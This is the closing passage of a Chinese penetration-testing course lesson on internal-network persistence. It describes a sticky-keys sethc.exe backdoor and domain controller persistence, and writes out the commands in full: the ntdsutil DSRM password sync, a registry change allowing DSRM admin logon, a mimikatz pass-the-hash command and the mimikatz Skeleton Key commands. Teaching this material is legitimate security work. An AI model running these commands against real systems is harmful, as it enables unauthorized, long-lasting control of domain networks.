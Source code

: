 <p data-nodeid="10300">粘滞键后门是最常用的后门留取方式，粘滞键是指连续按 5 次 Shift 键而触发的，它执行的是 windows\system32\sethc.exe 程序，我们用后门程序替换掉就可以。</p>
<p data-nodeid="10301"><img src="https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEjSAG5D7AAB7pk5Jmlc919.png" alt="Drawing 28.png" data-nodeid="10610"></p>
<div data-nodeid="10302"><p style="text-align:center">图 29  粘滞键</p></div>
<p data-nodeid="10303">除此之外，你还可以使用注册表、计划任务等方式来留取后门。</p>
<h4 data-nodeid="10304">3.域控维权</h4>
<p data-nodeid="10305">在拿到域控后，攻击者会对现有的权限进行持久化操作，以保证长期有效地控制它，常用的方法有以下两种。</p>
<ul data-nodeid="10306">
<li data-nodeid="10307">
<p data-nodeid="10308"><strong data-nodeid="10617">DSRM</strong></p>
</li>
</ul>
<p data-nodeid="10309">DSRM，目录服务恢复模式是 Windows 域控制器的安全模块启动项，你可以通过它为域控制器设置一个本地管理员账户，然后同步其他账号的密码为 DSRM 密码，再修改注册表的 DrmAdminLogonBehavior 为 2，即允许使用 DSRM 管理员账号登录域控制器：</p>
<pre class="lang-java" data-nodeid="10310"><code data-language="java">＃ 同步DSRM密码
ntdsutil
set DSRM password
SYNC FROM DOMAIN ACCOUNT username
Q
Q
＃修改注册表配置：
reg add “ HKLM\System\CurrentControlSet\Control\Lsa” /v DSRMAdminLogonBehavior /t REG_DWORD /d <span class="hljs-number">2</span>
</code></pre>
<p data-nodeid="10311">之后就可以用 mimikatz 去连接：</p>
<pre class="lang-java" data-nodeid="10312"><code data-language="java">sekurlsa::pth /domain:computername /user:Administrator /ntlm:{密码hash}
</code></pre>
<ul data-nodeid="10313">
<li data-nodeid="10314">
<p data-nodeid="10315"><strong data-nodeid="10623">Skeleton Key</strong></p>
</li>
</ul>
<p data-nodeid="10316">Mimikatz 支持安装万能密码，通过以下命令即可将“mimikatz”作为万能密码去连接域控，哪怕域控密码被修改也可使用。</p>
<pre class="lang-java" data-nodeid="10317"><code data-language="java">privilege::debug 
misc::skeleton
</code></pre>
<p data-nodeid="10318">除此之外，还可以利用 mimikatz 的 mimilib.dll 去记录重启后登录的密码，还有用户 SID History 属性等方式，都可以利用 Mimikatz 工具来实现，它在权限持久化方面提供了不少实用的功能。</p>
<h3 data-nodeid="10319">总结</h3>
<p data-nodeid="10320">本课内容较长一些，主要是内网渗透涉及的知识点太多太杂了，限于篇幅，我也只能介绍一些最主要最常用的技术，按内网渗透流程来分顺序讲解：内网信息收集、通信隧道建设、权限提升、横向移动、权限维持。</p>
<p data-nodeid="11783">更多内网渗透技巧，推荐你去看《内网安全攻防：渗透测试实战指南》这本书，其中还有Cobalt Strike这款在内网渗透中常被使用到的渗透测试框架的详细介绍，它是收费版的，另有社区版叫 armitage，你可以花点时间去研究下 Cobalt Strike 的使用，相信对提高内网渗透实战能力会有很大的帮助。</p>
<hr data-nodeid="11784">
<p data-nodeid="11785" class="te-preview-highlight"><a href="https://wj.qq.com/s2/8059116/3881/" data-nodeid="11789">课程评价入口，挑选 5 名小伙伴赠送小礼品～</a></p>

---

### 精选评论

##### *侣：
> 不错，有时间跟着操作

